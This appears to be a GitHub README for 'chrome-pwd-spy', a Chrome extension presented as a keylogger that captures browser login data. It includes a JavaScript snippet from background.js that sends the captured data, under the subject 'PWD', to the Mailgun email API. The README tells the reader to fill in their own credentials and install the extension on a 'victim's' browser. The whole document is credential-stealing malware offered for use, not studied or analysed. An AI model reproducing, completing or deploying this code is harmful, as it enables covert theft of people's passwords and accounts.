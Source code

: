 ### #сhrome-pwd-spy

Simplest keylogger, directly records login data to transactional email (mailgun right now).

##### how to use ->

*js/background.js:*

```javascript
 var body =   {
	from: 'mailgun@sandboxab04a0cb2f204bb3a60fc5c0500ea941.mailgun.org', //<--- from
        to : '', //<--- to
	subject: 'PWD',
	text: data
 };

 var xhr = new XMLHttpRequest();
 xhr.open("POST", "https://api.mailgun.net/v3/<YOUR DOMAIN THERE>/messages", true); //<--- Your mailgun domain there
 xhr.setRequestHeader ("Authorization", "<YOUR API-KEY THERE>"); //<--- Your key there
 xhr.setRequestHeader("Content-Type","application/json");
 xhr.send(JSON.stringify(body));
```

Set your credentials, then install extension on your victim's chrome browser and that's it!
